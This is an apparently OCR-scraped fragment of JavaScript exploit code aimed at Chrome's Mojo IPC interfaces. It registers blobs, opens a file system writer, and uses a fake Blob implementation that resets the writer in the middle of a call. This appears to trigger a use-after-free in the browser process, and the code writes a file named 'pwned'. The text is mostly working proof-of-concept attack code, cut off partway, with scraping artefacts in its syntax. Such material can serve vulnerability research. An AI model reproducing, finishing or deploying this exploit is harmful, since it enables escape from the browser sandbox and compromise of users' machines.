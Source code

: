 ```
  `}`;

  base_bytes = new BytesProviderImpl();
  base_bytes_ptr = new blink.mojom.BytesProviderPtr();
  base_bytes.binding.bind(mojo.makeRequest(base_bytes_ptr));

  let base_blob_element = new blink.mojom.DataElement();
  base_blob_element.bytes = new blink.mojom.DataElementBytes();
  base_blob_element.bytes.length = 2;
  base_blob_element.bytes.embeddedData = [0x41, 0x41];
  base_blob_element.bytes.data = base_bytes_ptr;

  let base_blob_ptr = new blink.mojom.BlobPtr();
  let base_blob_req = mojo.makeRequest(base_blob_ptr);
  blob_registry_ptr.register(base_blob_req, "blob_0", "text/html", "", [base_blob_element]);

  let file_system_manager_ptr = new blink.mojom.FileSystemManagerPtr();
  Mojo.bindInterface(blink.mojom.FileSystemManager.name,
                   mojo.makeRequest(file_system_manager_ptr).handle, "process");

  let host_url = new url.mojom.Url();
  host_url.url = 'http://localhost:7007';

  let open_result = await file_system_manager_ptr.open(host_url, 0);
  console.log(open_result);

  let file_url = new url.mojom.Url();
  file_url.url = open_result.rootUrl.url + '/pwned';

  let create_writer_result = await file_system_manager_ptr.createWriter(file_url);
  console.log(create_writer_result);

  function BlobImpl() `{`
    this.binding = new mojo.Binding(blink.mojom.Blob, this);
  `}`

  BlobImpl.prototype = `{`
    clone: async (arg0) =&gt; `{`
      console.log('clone');
    `}`,
    asDataPipeGetter: async (arg0, arg1) =&gt; `{`
      console.log("asDataPipeGetter");
    `}`,
    readAll: async (arg0, arg1) =&gt; `{`
      console.log("readAll");
    `}`,
    readRange: async (arg0, arg1, arg2, arg3) =&gt; `{`
      console.log("readRange");
    `}`,
    readSideData: async (arg0) =&gt; `{`
      console.log("readSideData");
    `}`,
    getInternalUUID: async (arg0) =&gt; `{`
      console.log("getInternalUUID");
      create_writer_result.writer.ptr.reset();
      return `{`'uuid': 'blob_0'`}`;
    `}`
  `}`;

  let blob_impl = new BlobImpl();
  let blob_impl_ptr = new blink.mojom.BlobPtr();
  blob_impl.binding.bind(mojo.makeRequest(blob_impl_ptr));

```